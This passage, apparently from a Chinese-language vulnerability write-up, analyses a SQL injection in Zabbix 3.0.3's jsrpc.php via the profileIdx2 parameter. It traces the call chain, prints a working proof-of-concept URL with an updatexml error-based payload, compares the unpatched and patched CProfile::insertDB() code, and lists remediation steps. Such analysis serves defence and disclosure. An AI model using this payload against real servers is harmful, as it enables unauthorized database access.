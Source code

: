 `jsrpc.php`末尾包含进`page_footer.php`，最终调用缺陷函数`CProfile::insertDB()`，`profileIdx2`参数被执行，产生注入.   

总结调用流程：
`$data = $_REQUEST   --->    CScreenBuilder::getScreen()   --->    CScreenBase::__construct()   --->    CScreenBase::calculateTime()   --->   CProfile::update()   --->   CScreenBase::get()   --->   require_once()   --->   CProfile::flush()   --->   CProfile::insertDB()   --->   CProfile::DBexecute()`   

PoC: 
```
.../zabbix/jsrpc.php?type=9&method=screen.get&profileIdx=1&updateProfile=1&mode=2&screenid=&groupid=&hostid=0&pageFile=1&action=showlatest&filter=&filter_task=&mark_color=1&resourcetype=16&profileIdx2=666+or+updatexml(1,concat(0x23,(select+user()),0x23),1)+or+1=1)%23
```

#### 4.2 补丁对比
zabbix 最新版3.0.4中，没有对`jsrpc.php`页面进行任何改动，仍然能传入任意参数。但是修复了`CProfile::insertDB()`的缺陷，增加了对`$idx2`的过滤。
```
// zabbix 3.0.3 CProfile.php 277行
private static function insertDB($idx, $value, $type, $idx2) {
	$value_type = self::getFieldByType($type);
	$values = [
		'profileid' => get_dbid('profiles', 'profileid'),
		'userid' => self::$userDetails['userid'],
		'idx' => zbx_dbstr($idx),
		$value_type => zbx_dbstr($value),
		'type' => $type,
		//关键点，未进行过滤
		'idx2' => $idx2
	];
	......
}
```
```
// zabbix 3.0.4 CProfile.php 277行
private static function insertDB($idx, $value, $type, $idx2) {
	$value_type = self::getFieldByType($type);
	$values = [
		'profileid' => get_dbid('profiles', 'profileid'),
		'userid' => self::$userDetails['userid'],
		'idx' => zbx_dbstr($idx),
		$value_type => zbx_dbstr($value),
		'type' => $type,
		//关键点，使用zbx_dbstr()进行过滤
		'idx2' => zbx_dbstr($idx2)
	];
	......
}
```

### 5. 修复意见
1. 更新到最新3.0.4版本，补丁详情：https://support.zabbix.com/browse/ZBX-11023
2. 禁用guest登陆功能
3. 修改管理员账户默认密码

## 三、参考
* https://www.seebug.org/vuldb/ssvid-92301
* https://www.seebug.org/vuldb/ssvid-92302
* https://support.zabbix.com/browse/ZBX-11023
* https://packetstormsecurity.com/files/138312

